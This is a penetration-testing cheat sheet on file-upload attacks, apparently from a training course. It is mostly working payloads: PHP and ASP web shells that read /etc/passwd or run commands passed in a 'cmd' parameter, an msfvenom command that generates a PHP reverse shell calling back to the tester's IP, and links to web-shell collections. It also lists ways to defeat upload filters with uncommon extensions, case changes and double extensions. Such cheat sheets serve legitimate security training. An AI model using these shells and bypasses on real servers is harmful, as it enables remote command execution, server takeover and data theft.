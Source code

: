 






























# CHEETSHEETS
## Web Shells

| **Web Shell**                                                                           | **Description**                       |
| --------------------------------------------------------------------------------------- | ------------------------------------- |
| `<?php file_get_contents('/etc/passwd'); ?>`                                            | Basic PHP File Read                   |
| `<?php system('hostname'); ?>`                                                          | Basic PHP Command Execution           |
| `<?php system($_REQUEST['cmd']); ?>`                                                    | Basic PHP Web Shell                   |
| `<% eval request('cmd') %>`                                                             | Basic ASP Web Shell                   |
| `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`          | Generate PHP reverse shell            |
| [PHP Web Shell](https://github.com/Arrexel/phpbash)                                     | PHP Web Shell                         |
| [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)                 | PHP Reverse Shell                     |
| [Web/Reverse Shells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) | List of Web Shells and Reverse Shells |
|                                                                                         |                                       |

## Bypasses

|**Command**|**Description**|
|---|---|
|**Client-Side Bypass**||
|`[CTRL+SHIFT+C]`|Toggle Page Inspector|
|**Blacklist Bypass**||
|`shell.phtml`|Uncommon Extension|
|`shell.pHp`|Case Manipulation|
|[PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)|List of PHP Extensions|
|[ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)|List of ASP Extensions|
|[Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)|List of Web Extensions|
|**Whitelist Bypass**||
|`shell.jpg.php`|Double Extension|
|`shell.php.jpg`|Reverse Double Extension|